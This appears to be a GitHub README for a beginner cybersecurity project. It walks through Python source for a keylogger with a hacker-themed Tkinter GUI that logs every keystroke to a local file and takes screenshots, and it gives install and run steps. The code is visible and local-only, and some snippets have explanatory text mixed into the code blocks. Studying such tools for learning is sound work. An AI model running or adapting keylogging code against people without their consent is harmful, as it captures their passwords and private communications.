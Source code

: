 ### 💀🕶️ Black Phantom Logger

## ⚠️ Warning & Ethical Considerations
**🚨 This tool is meant for eductional purpose and learning cybersecurity only!**
- Do **not** use this tool without proper authorization.
- Unauthorized use of keyloggers is **illegal and punishable** by law.
- The author **takes no responsibility** for any unethical or misuse use of this code.

🔴 **Use responsibly and ethically.**

## 🛠️ Tools Used
For writing and running the Python script, I used:

Thonny IDE – A beginner-friendly Python environment, great for easy script execution and debugging.

## 📦 Required Python Libraries
Before running the keylogger, install the necessary libraries:

`pip install pynput tkinter opencv-python pyautogui pillow`

# Libraries Explained:

`pynput` – Captures keystrokes in the background.

`tkinter` – Creates the GUI for our Black Phantom Logger.

`opencv-python` – Helps handle images (optional for additional features).

`pyautogui` – Captures screenshots.

`PIL (pillow)` – Supports image manipulation inside the GUI.

## 🚀 Project Overview
This is a simple keylogger with a dark hacker-themed GUI named Black Phantom Logger. It records keystrokes and saves them to a file. It also includes:

A graphical user interface (GUI) using Tkinter.

A dark "hacker-style" theme with a black and green aesthetic.

A button for starting and stopping the keylogger.

A logo of a hacker to enhance the simulation experience.

A feature to capture the screen as an extra functionality.

📜 Code Walkthrough
Let's break down the script step by step!

# 1️⃣ Importing Required Modules

```python
import tkinter as tk
from tkinter import messagebox
from pynput.keyboard import Listener
import os
import pyautogui
from PIL import Image, ImageTk
```

`tkinter` – Creates the graphical interface.

`pynput.keyboard.Listener` – Monitors and records keystrokes.

`os` – Handles file operations.

`pyautogui` – Captures screenshots.

`PIL.Image, ImageTk` – Displays images in the GUI.

# 2️⃣ Creating the GUI (Graphical User Interface)

```python
root = tk.Tk()
root.title("Black Phantom Logger")
root.geometry("400x400")
root.configure(bg="black")
`tk.Tk()` – Initializes the main window.

`title("Black Phantom Logger")` – Sets the program title.

`geometry("400x400")`– Defines the window size.

`configure(bg="black")` – Applies the dark hacker-style theme.
```

3️⃣ Adding a Hacker-Style Logo

```python
logo = Image.open("hacker_logo.png")  # Make sure you have an image named hacker_logo.png
logo = logo.resize((100, 100))
logo = ImageTk.PhotoImage(logo)
logo_label = tk.Label(root, image=logo, bg="black")
logo_label.pack()
Loads a hacker-themed image to enhance the look.

Resizes the image and places it in the GUI.
```

4️⃣ Keystroke Logging Function
 ```python
def log_keystrokes(key):
    key = str(key).replace("'", "")
    with open("keystrokes.txt", "a") as file:
        file.write(key + "\n")
Converts each pressed key into a string.

Saves the keystrokes into a text file (keystrokes.txt).
```

5️⃣ Screenshot Capture Function

```python
def capture_screen():
    screenshot = pyautogui.screenshot()
    screenshot.save("screenshot.png")
    messagebox.showinfo("Screenshot", "Screenshot saved as screenshot.png")
Uses pyautogui.screenshot() to take a snapshot.

Saves the image as "screenshot.png".

Displays a confirmation message.
```

6️⃣ Start & Stop Buttons

```python
def start_logger():
    global listener
    listener = Listener(on_press=log_keystrokes)
    listener.start()
    messagebox.showinfo("Logger", "Keylogger Started!")

def stop_logger():
    if listener:
        listener.stop()
        messagebox.showinfo("Logger", "Keylogger Stopped!")
start_logger() – Begins keylogging in the background.

stop_logger() – Stops the keylogger when needed.
```

7️⃣ Adding Buttons to GUI

```python
start_button = tk.Button(root, text="Start Logging", command=start_logger, bg="green", fg="white")
stop_button = tk.Button(root, text="Stop Logging", command=stop_logger, bg="red", fg="white")
screenshot_button = tk.Button(root, text="Capture Screen", command=capture_screen, bg="blue", fg="white")

start_button.pack(pady=10)
stop_button.pack(pady=10)
screenshot_button.pack(pady=10)
Buttons added:

Start Logging (Green Button)

Stop Logging (Red Button)

Capture Screen (Blue Button)
```
8️⃣ Running the GUI

 ```python
root.mainloop()
root.mainloop() keeps the window running.
```
### 🎭 Features & Hacker Simulation Experience
Dark Theme: A black & green color scheme for a hacker-like feel.

Hacker Logo: Enhances the interface's aesthetics.

Keylogging: Logs all keystrokes into a file.

Screen Capture: Takes a screenshot for additional monitoring.

### ⚠️ Warning & Ethical Considerations

🚨 This tool is meant for learning cybersecurity only!

Do not use this tool without proper authorization.

Unauthorized use of keyloggers is illegal and punishable by law.

The author takes no responsibility for any unethical use.

🔴 Use responsibly and ethically.

### 👨‍💻 How to Run the Keylogger
Install Thonny IDE (if not installed).

Download or clone this repository:
***```bash
git clone https://github.com/AhmedSalahHassanQatar/PRODIGY_CS_04
cd PRODIGY_CS_04
```***

Install dependencies:
pip install pynput tkinter opencv-python pyautogui pillow
Run the script in Thonny or terminal:
python keylogger.py

## 📜 Final Words
This project is a basic yet powerful way to understand how keyloggers work in a cybersecurity research context. If you're a beginner, this is a great starting point for learning about ethical hacking, Python scripting, and GUI development.

🚀 Happy Learning, and Stay Ethical!
